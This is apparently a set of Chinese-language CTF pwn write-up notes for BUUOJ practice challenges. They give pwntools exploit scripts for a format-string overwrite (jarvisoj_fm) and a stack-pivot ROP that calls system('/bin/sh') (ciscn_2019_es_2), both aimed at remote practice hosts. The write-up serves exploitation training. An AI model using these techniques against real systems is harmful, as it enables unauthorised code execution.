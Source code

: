 ## bjdctf_2020_babyrop

## jarvisoj_fm
### 思路
格式化字符串漏洞

### exp
```python
from pwn import *

#p = process("./fm")
p = remote("node5.buuoj.cn",29687)
x_addr = 0x0804A02C

payload = p32(x_addr) + b'%11$n'

p.sendline(payload)

p.interactive()
```

## jarvisoj_tell_me_something

## ciscn_2019_es_2
### 思路
栈迁移
利用第一次输出泄露调用vuln函数时压入的ebp，即main_ebp
构造 `b'AAAA' + p32(system_plt) + p32(main) + p32(main_ebp-offset) + b'/bin/sh'`
调试获取main_ebp与'/bin/sh'的偏移offset
最后利用两次leave_ret转移esp，第一次是程序中的leave，用于转移ebp;第二次是leave_ret的gadget，这次会转移esp

### exp
```python
from pwn import *

p = remote("node5.buuoj.cn",26700)
#p = process("./ciscn_2019_es_2")

system_plt = 0x08048400
lev_ret = 0x080485FD
main = 0x080485FF

#gdb.attach(p)

payload1 = b'A'*0x20+b'B'*0x8
p.send(payload1)
p.recvuntil(b'BBBBBBBB')
main_ebp = u32(p.recv(4))
#info(hex(main_ebp))

payload2 = b'AAAA' + p32(system_plt) + p32(main) + p32(main_ebp-0x28) + b'/bin/sh'
payload2 = payload2.ljust(0x28,b'\x00')
payload2+= p32(main_ebp-0x38) + p32(lev_ret)
p.send(payload2)

p.interactive()
```
